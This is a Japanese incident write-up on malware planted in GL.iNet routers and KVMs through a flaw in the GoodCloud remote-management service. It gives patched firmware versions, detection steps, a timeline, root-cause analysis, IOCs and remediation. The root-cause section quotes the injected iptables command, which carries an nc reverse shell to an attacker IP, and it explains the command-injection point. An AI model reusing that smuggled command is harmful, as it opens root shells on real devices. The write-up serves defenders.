

# GL.iNet ― クラウド管理の欠陥でルーターとKVMにマルウェア

## 要点

### 影響を受けるもの

- **GL.iNetのルーターとリモートKVM（Cometシリーズ）のうち、クラウド遠隔管理につながっていた一部の機器**。GL.iNetは2026年11月20日、遠隔管理クラウドの脆弱性を第三者に悪用され、一部の機器にアクセスされてマルウェアを入れられたと発表した（[GL.iNet Security Notice 2026-11-20](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)）。
- 影響を受けた機種・ファームウェア・台数、クラウドの欠陥の中身、機器から情報が取られたかは公表されていない。KVMにつながったパソコンまで被害が及んだかも調査中（同、[BleepingComputer](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)）。
- 利用者側の匿名報告では、痕跡はルーター18機種・KVM 6機種、ファームウェア4.7〜4.10系で見つかっている（コミュニティサイト [gl-i.net](https://gl-i.net/security/csa-2026-01/)。11月22日時点、未検証の自己申告）。

### 今すぐやること

- 機種ごとの**セキュリティファームウェア**に上げる。感染の兆候がなくても推奨されている（GL.iNet）。
  - ルーター：GL-MG1300／GL-MT3000／GL-MT6000は4.11.1以降、GL-E5800は4.10.3以降、GL-BE3600／GL-BE9300は4.10.2以降、GL-BE14000は4.9.3以降、GL-BE6500／GL-MT3600BE／GL-MT5000は4.9.1以降、GL-BE10000は4.8.7以降、GL-AX1800／GL-AXT1800／GL-SFT1200／GL-X3000／GL-XE3000は4.8.4以降、GL-MT2500(A)／GL-X2000は4.7.14以降。一覧にない機種も「影響なし」とは限らない（同）。
  - KVM：RM1／RM1V2／RM10／RM10RC／RM1PE／RM4PEは1.10.3以降、RMQ1は1.8.7以降（同）。
- 実行中のプロセスに `crond -i /tmp/.log` がないか確かめる（ルーターは `ps | grep tmp`、KVMは端末で `ps -aux | grep tmp`、RMQ1は `ps -a | grep tmp`）。あれば感染として扱う（同）。ただしこの確認では見つからない感染があると、GL.iNet自身も追記している（同）。
- 更新や再起動の**前に**痕跡を調べる。リバースシェルはファイルを残さず再起動で消え、新ファームウェアは初回起動時にマルウェアの一部を消すため、後からでは調べられなくなる（[gl-i.net](https://gl-i.net/security/csa-2026-01/)。コミュニティの見解）。
- 修正版を入れるまではGoodCloudを切っておく（同。GL.iNetの公式の指示ではない）。感染していた機器は、VPNのプロファイルやSSH鍵、Wi-Fi・管理画面・クラウドのパスワードを相手側で作り直す（同）。

## 登場する組織・サービス

- **GL.iNet**：2010年創業のネットワーク機器メーカー。小型の旅行用ルーターから家庭用ルーター、遠隔操作用のKVMまでを作っている（[GL.iNet](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)の会社紹介）。今回、自社のクラウドを突かれた当事者。
- **GoodCloud**：GL.iNetの遠隔管理サービス。対応機器を外から管理でき、KVM製品ではつないだパソコンやサーバーの操作にも使う（[BleepingComputer](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)）。今回の侵入経路とされるサービス。
- **リモートKVM（Comet）**：パソコンの画面・キーボード・マウスをネット越しに操作するための機器（同）。乗っ取られると、つながったパソコン自体を操作されうる。
- **RemoteToHome Consulting**：顧客のGL.iNetルーターを管理している事業者で、自社が管理する183台を調べ、侵入口とみられる処理を見つけた（[gl-i.net](https://gl-i.net/security/csa-2026-01/)、[BleepingComputer](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)）。
- **gl-i.net**：GL.iNetとは関係のない利用者コミュニティのサイト。調査用スクリプトを配り、匿名の検査結果を集計している。GL.iNetは公式の案内からこのスクリプトにリンクしているが、内容は保証しないとしている（[gl-i.net](https://gl-i.net/security/csa-2026-01/)、[GL.iNet](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)）。

## 概要

- GL.iNetは「クラウド遠隔管理サービスの脆弱性」を悪用され、一部のルーターとKVMにマルウェアを入れられたと発表した。クラウド側の欠陥は直して攻撃経路を塞いだが、それだけでは感染済みの機器はきれいにならないので、機種ごとのセキュリティファームウェアを入れるよう求めている（[GL.iNet](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)）。
- 利用者と研究者の調査で、rootのリバースシェル、GL.iNet機器専用に作られたマルウェア、さらに2025年からあった別系統のバックドアが見つかった（[BleepingComputer](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)、[gl-i.net](https://gl-i.net/security/csa-2026-01/)）。
- 侵入口については、ルーター上のGoodCloudクライアントが、クラウドから届いた値をそのままrootのシェルコマンドに組み込んでいたという分析が出ている。GL.iNetはこれが使われたとは認めていない（同）。

> この記事では、GL.iNetの公式告知（11月23日UTC更新版）で確認できる内容を中心に「事実」とし、利用者や研究者の調査（BleepingComputer、コミュニティサイトgl-i.net、GL.iNetフォーラム）の内容は出どころを書いて区別しています。筆者の推測や意見は「考察」として分けます。

## 何が起きたか（時系列）

| 日付（日本時間） | 出来事 |
| --- | --- |
| 2025年9月〜2026年5月ごろ | 別系統の古いバックドアのファイルが、この期間の日付で見つかっている（利用者の報告、[gl-i.net](https://gl-i.net/security/csa-2026-01/)）。今回の攻撃と同じ者かは不明 |
| 11月19日（現地） | 感染したGL-RM1（KVM）が `66.245.219[.]252` から `ni.sh` と実行ファイルを取得した記録を、持ち主がフォーラムで公開（[BleepingComputer](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)） |
| 11月20日（現地） | GL.iNetがクラウド遠隔管理の脆弱性を確認し、告知を公開（[GL.iNet](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)） |
| 11月21日 6時40分ごろ（UTC 20日 21:40） | 複数のGL-AXT1800（4.8.3）で、`170.39.226[.]219` へのrootリバースシェルが同じ時刻に起動（[GL.iNetフォーラム](https://forum.gl-inet.com/t/quickly-check-if-your-router-is-under-attack/73070)の利用者報告） |
| 11月22日〜23日 | 機種ごとのセキュリティファームウェアを順次公開（[GL.iNet](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)、[gl-i.net](https://gl-i.net/security/csa-2026-01/)） |
| 11月23日 3時45分ごろ | BleepingComputerが報道（[BleepingComputer](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)） |

## 技術的な問題点（根本原因）

### GL.iNetが認めていること（事実：[GL.iNet](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)）

- 欠陥は「クラウド遠隔管理サービス」にあり、第三者がそれを使って機器にアクセスし、マルウェアを入れた。
- クラウド側の欠陥を直し、使われたアクセスを止めたので、この経路での新たな感染はもう起きない。ただし、感染済みの機器からマルウェアは消えない。
- セキュリティファームウェアは、今回見つかったマルウェアを、初期化せず設定を残したまま取り除く。

### 利用者側の分析（事実：出典ごとに記載。GL.iNetは未確認）

- **クラウドの命令がrootのシェルに直行**：ルーター上のGoodCloudクライアント（パッケージ `gl-sdk4-cloud`）には、AstroWarp／SD-WAN用のクラウド命令を処理する部分があり、命令に入っている2つのアドレスを検証もクォートもせずに `iptables -t nat -A SDWAN_IP_MAPPING -d <値> -j DNAT --to-destination <値>` の形でシェルに渡していた。アドレスの位置にコマンドを入れれば、rootで実行される（[GL.iNetフォーラム](https://forum.gl-inet.com/t/quickly-check-if-your-router-is-under-attack/73070)、RemoteToHomeの分析として[BleepingComputer](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)）。
- 実際に動いていたプロセスは `iptables ... -d 127.0.0.1 -j DNAT --to-destination 127.0.0.1;(while true;do ... nc 170.39.226.219 42499 ...;done)` で、アドレスの後ろにリバースシェルがつながっていた（[GL.iNetフォーラム](https://forum.gl-inet.com/t/quickly-check-if-your-router-is-under-attack/73070)）。
- この処理はAstroWarpを使っていなくても動くので、機能を切っていても防げなかった（同、[gl-i.net](https://gl-i.net/security/csa-2026-01/)）。RemoteToHomeは同じコードを4.7.0（2024年12月5日）以降のファームウェアに見つけている（[gl-i.net](https://gl-i.net/security/csa-2026-01/)）。
- GL-BE14000の4.9.2と4.9.3を比べると、新版はこれらの値を検査・クォートし、8つのクラウド機能でシェルの構文を含む入力を拒むようになっている（同）。

### 考察

- GL.iNetの言う「クラウドの脆弱性」と、利用者が見つけた「クライアント側のコマンドインジェクション」は、同じ一つの経路の両端だと考えると話が合う。つまり、①何らかの欠陥でクラウドから任意の機器へ命令を送れるようになり、②機器側はクラウドからの命令を信じきってrootで実行した、という二段構えである。クラウド側だけを直して「新たな感染は起きない」としつつ、ファームウェア更新も求めている点もこれと矛盾しない。ただしGL.iNetは仕組みを説明しておらず、推測にとどまる。
- 機器にとって、メーカーのクラウドは「正しい命令しか送ってこない相手」として扱われていた。クラウドの1か所が破られると、つながっている全機器のrootが一度に開く構造だった、と読める。

## 攻撃・侵入経路

利用者側の分析に基づく流れ。①の手口はGL.iNetが公表しておらず、全体もGL.iNetが確認したものではない。

- BleepingComputerが調べた `ni.sh` は、GL.iNetの多数の機種を見分けて実行ファイル `gl-helper` と `gb` を落とし、起動スクリプトと定期実行で常駐し、プロセス名を `crond -i /tmp/.log` に見せかける。正規の `netstat` を、`66.245.219[.]252` への接続を表示しないシェルスクリプトに置き換え、SSH公開鍵の追加、ファイルの日時の改ざん、遠隔からの命令の取得・実行の機能も持つ。中国語の開発者コメントがあった（[BleepingComputer](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)）。
- GL-MT2500からは、改変された `urandom_seed` 起動スクリプトから動くLuaの不正なプログラムも見つかっている（同）。
- 感染したKVMは1日に約1,800の家庭用回線のIPアドレスと通信し、TRONブロックチェーンのAPIにも繰り返し接続していた。目的は分かっておらず、住宅用プロキシやボットネットに使われたかは確認されていない（同）。

## なぜ防げなかったか・構造的要因の考察

- **「遠隔管理を使っていない」は守りにならなかった**：問題の処理は、AstroWarpを使っていなくても、GoodCloudにつながっていれば動いた（利用者の分析）。機能のスイッチと、その機能用のコードが動くかどうかが一致していないと、利用者は自分の危険度を判断できない（考察）。
- **公式の確認方法の範囲が狭い**：GL.iNetが示した確認方法は、特定のプロセス名を探すものだった。リバースシェルはそのプロセスを使わず、ファイルも残さず、再起動で消える（[gl-i.net](https://gl-i.net/security/csa-2026-01/)）。「見つからなければ掃除は不要」という当初の案内は、少なくともこの種の感染を見落とす。GL.iNetは後から、この確認方法では見つからない感染があると追記し、コミュニティのスクリプトへのリンクを付けた（[GL.iNet](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)）。
- **調べる前に証拠が消える順番になりやすい**：ルーターのログはメモリにしかなく、再起動で消える。新ファームウェアは初回起動時にマルウェアの一部を消す（[gl-i.net](https://gl-i.net/security/csa-2026-01/)）。「すぐ更新」と「先に調べる」がぶつかり、何が起きたか分からないまま片付く機器が多くなる（考察）。
- **別系統の古いバックドア**：2025年9月ごろからの日付のファイルを持つバックドア（`/bin/ulogd`、`/usr/bin/monitord` など）が、今回とは別に見つかっている。RemoteToHomeが調べた47台では、確認できた36台すべてがバックドアより前にGoodCloudに登録されており、42台は外から直接届かない場所にあった。同コミュニティは、これもクラウド経由だった可能性を示している（同）。GL.iNetの告知はこのバックドアに触れておらず、新ファームウェアも消さないとされる（同）。クラウド経由の侵入が11月20日より前から起きていたかは確認されていない（考察）。

## 運用者向けの具体的な対策と検知ポイント

- **順番**：①ネットから外すかGoodCloudを切る、②痕跡を調べて保存する、③機種ごとのセキュリティファームウェアを入れる、④もう一度調べる（[gl-i.net](https://gl-i.net/security/csa-2026-01/)の推奨。GL.iNetの公式手順は「確認→更新」）。業務で使っている場合、保険会社やインシデント対応の委託先がいれば、初期化の前に連絡する（同）。
- **IOC**：プロセス `crond -i /tmp/.log`（[GL.iNet](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)）、接続先 `170.39.226[.]219`・`66.245.219[.]252`・`65.20.71[.]131`、ファイル `ni.sh`・`gl-helper`・`gb`、改変された `netstat` と `urandom_seed`（[BleepingComputer](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)）、`/etc/config/.gl`・`/etc/rc.local`・crontabの見覚えのない行、`/tmp/f` を使う `nc` のプロセス、iptablesの `SDWAN_IP_MAPPING` チェーンの不審なルール、`/etc/mp_ip_mapping_info`（[gl-i.net](https://gl-i.net/security/csa-2026-01/)、[GL.iNetフォーラム](https://forum.gl-inet.com/t/quickly-check-if-your-router-is-under-attack/73070)）。古いバックドアは `/bin/ulogd`・`/usr/bin/monitord`（[gl-i.net](https://gl-i.net/security/csa-2026-01/)）。
- **ネットワーク側で見る**：機器の内側の表示（`netstat` など）は改ざんされうるので、上流のファイアウォールやフロー記録で、ルーター自身から上記IPへの通信、多数の家庭用回線IPへの通信、TRONのAPIへの接続を探す（考察）。
- **秘密情報の作り直し**：感染していた機器は、VPNのプロファイル（サーバー側・VPN事業者側で削除して作り直す）、機器を信頼しているSSH鍵、Wi-Fi・管理画面・DDNS・クラウドのパスワードを作り直す。クラウドのパスワードを変える前に、GoodCloudの機器ログを書き出しておく（[gl-i.net](https://gl-i.net/security/csa-2026-01/)）。
- **初期化より書き直し**：RemoteToHomeは、多くのルーターで初期化時に戻す元のイメージにrootが書き込めることを見つけた。実際に書き換えられた例は報告されていないが、感染していた機器は「設定を残さない」でファームウェアを入れ直し、バックアップから戻さずに手で設定するよう勧めている（同）。
- **KVMの先のパソコン**：感染していたKVMにつないでいたパソコンでは、見覚えのないプログラム・拡張機能・アカウント・自動起動・タスクを確認し、フルスキャンする（[GL.iNet](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)）。
- **メーカーのクラウドを境界の内側に置かない**：遠隔管理クラウドは、乗っ取られると全台のrootを渡す経路になる。業務の機器では、使わないなら切る、更新後にスイッチが勝手に戻っていないか確かめる（4.11.0への更新で戻ったという報告がある。同）、管理は自前のVPN越しにする、といった形で依存を減らす（考察）。

## 参考リンク

- [GL.iNet: Security Notice 2026-11-20（11月23日UTC更新）](https://www.gl-inet.com/en-us/blogs/blog/glinet-security-notice-2026-11-20)
- [GL.iNet Forum: 2026-11-20: GL.iNet Security Notice - GoodCloud / KVM / Routers](https://forum.gl-inet.com/t/2026-11-20-gl-inet-security-notice-goodcloud-kvm-routers/73056)
- [GL.iNet Forum: Quickly check if your Router is under attack（利用者の報告）](https://forum.gl-inet.com/t/quickly-check-if-your-router-is-under-attack/73070)
- [BleepingComputer: Hackers exploit GL.iNet cloud flaw to infect routers, KVM devices（2026年11月22日、米国時間）](https://www.bleepingcomputer.com/news/security/hackers-exploit-glinet-cloud-flaw-to-infect-routers-kvm-devices/)
- [gl-i.net（非公式コミュニティ）: CSA-2026-01](https://gl-i.net/security/csa-2026-01/)
